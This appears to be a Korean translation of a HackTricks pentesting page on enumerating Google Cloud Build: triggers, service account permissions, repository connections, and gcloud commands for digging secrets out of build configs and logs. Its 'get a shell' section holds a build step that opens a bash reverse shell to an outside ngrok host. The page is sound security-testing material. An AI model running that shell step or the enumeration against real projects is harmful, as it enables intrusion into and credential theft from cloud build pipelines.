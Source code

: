# GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드 및 릴리스 프로세스를 자동화**하며 **소스 코드 저장소와 통합**되어 다양한 프로그래밍 언어를 지원하는 관리형 CI/CD 플랫폼입니다. 개발자들이 코드를 **자동으로 빌드, 테스트 및 배포**하면서 빌드 단계와 워크플로를 사용자 정의할 수 있습니다.

각 Cloud Build 트리거는 **Cloud 저장소와 관련**이 있거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 **직접 연결**됩니다.

{% hint style="success" %}
여기서 Github/Bitbucket 토큰을 **도용할 수 있는 방법**이나 **Cloud 저장소에서**도 볼 수 없었습니다. 왜냐하면 저장소가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며 Github는 클라이언트에 의해 액세스되지 않기 때문입니다.
{% endhint %}

### 이벤트

Cloud Build는 다음 경우에 트리거될 수 있습니다:

- **브랜치로 푸시**: 브랜치 지정
- **새 태그로 푸시**: 태그 지정
- **풀 리퀘스트**: PR을 받는 브랜치 지정
- **수동 호출**
- **Pub/Sub 메시지**: 토픽 지정
- **웹훅 이벤트**: HTTPS URL을 노출하고 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

- 실행할 명령을 지정하는 yaml/json. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나
- 인증되지 않은 액세스에 관련이 있음
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA 권한

**서비스 계정에는 `cloud-platform` 스코프**가 있으므로 **모든 권한을 사용**할 수 있습니다. **SA가 지정되지 않은 경우**(제출할 때와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용**됩니다.

기본적으로 권한이 부여되지 않지만 쉽게 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 승인

빌드 실행에 대한 **승인을 요구하도록 Cloud Build를 구성**할 수 있습니다(기본적으로 비활성화됨).

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** **Github 토큰을 얻기 위한 권한을 요청**하는 OAuth 프롬프트가 표시되며 이 토큰은 **Secret Manager에 저장**됩니다.
- **GitHub Enterprise:** **GithubApp**을 설치하라는 요청이 표시됩니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 비밀로 저장됩니다.
- **GitLab / Enterprise:** **API 액세스 토큰 및 Read API 액세스 토큰**을 제공해야 하며 이는 **Secret Manager에 저장**됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 **연결**할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`**과는 다릅니다. 이는 **Github 또는 Bitbucket** 저장소에 액세스하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고 1세대의 저장소 객체를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 저장

가끔 Cloud Build는 **트리거용 파일을 저장할 새로운 저장소를 생성**할 수 있습니다. 예를 들어 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 열거

**빌드 구성 및 로그에서 민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나**트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
